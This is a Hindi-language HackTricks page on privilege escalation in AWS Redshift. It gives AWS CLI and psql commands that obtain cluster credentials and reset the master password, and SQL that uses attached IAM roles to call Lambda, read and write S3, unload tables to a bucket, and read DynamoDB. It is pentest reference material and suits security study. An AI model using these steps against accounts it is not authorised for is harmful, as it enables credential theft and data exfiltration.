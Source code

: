 # AWS - Redshift Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें.

</details>

## Redshift

RDS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-databases/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-databases/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

इन अनुमतियों के साथ आप **सभी क्लस्टर्स की जानकारी** (नाम और क्लस्टर यूजरनेम सहित) प्राप्त कर सकते हैं और उसे एक्सेस करने के लिए **क्रेडेंशियल्स प्राप्त कर सकते हैं**:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी ढूंढ़ना।

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

इन अनुमतियों के साथ आप **सभी क्लस्टर्स की जानकारी** प्राप्त कर सकते हैं और **प्रवेश के लिए क्रेडेंशियल्स प्राप्त** कर सकते हैं।\
ध्यान दें कि postgres उपयोगकर्ता के पास वही **अनुमतियां होंगी जो IAM पहचान** क्रेडेंशियल्स प्राप्त करने के लिए इस्तेमाल की गई थी।
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी ढूंढना।

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

aws cli का उपयोग करके आंतरिक postgres (redshit) उपयोगकर्ता का **मास्टर पासवर्ड संशोधित करना** संभव है (मुझे लगता है कि आपको ये अनुमतियाँ चाहिए होती हैं लेकिन मैंने अभी तक उन्हें परीक्षण नहीं किया है):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी ढूंढना।

## बाहरी सेवाओं तक पहुंच

{% hint style="warning" %}
निम्नलिखित संसाधनों तक पहुंचने के लिए, आपको **उपयोग करने के लिए भूमिका निर्दिष्ट करनी होगी**। एक Redshift क्लस्टर के पास **AWS भूमिकाओं की एक सूची हो सकती है** जिसे आप उपयोग कर सकते हैं **यदि आपको ARN पता हो** या आप सिर्फ "**default**" सेट कर सकते हैं ताकि डिफ़ॉल्ट भूमिका का उपयोग किया जा सके।

इसके अलावा, [**यहाँ बताया गया है**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html) के अनुसार, Redshift भूमिकाओं को जोड़ने की भी अनुमति देता है (जब तक कि पहली भूमिका दूसरी को मान सकती है) ताकि आगे की पहुंच प्राप्त की जा सके, बस उन्हें **अल्पविराम** के साथ **अलग** करके: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

[https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html) में बताया गया है, redshift से **lambda फ़ंक्शन को कॉल करना संभव है** इस तरह से:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

जैसा कि [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html) में समझाया गया है, **S3 buckets में पढ़ने और लिखने** की संभावना है:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

जैसा कि [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html) में समझाया गया है, **dynamodb से डेटा प्राप्त करना** संभव है:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
आपके क्लस्टर के समान AWS क्षेत्र में Amazon DynamoDB तालिका बनाई जानी चाहिए, जब तक कि आप [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) विकल्प का उपयोग करके उस AWS क्षेत्र को निर्दिष्ट नहीं करते जिसमें Amazon DynamoDB तालिका स्थित है।
{% endhint %}

### EMR

[https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html) देखें

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
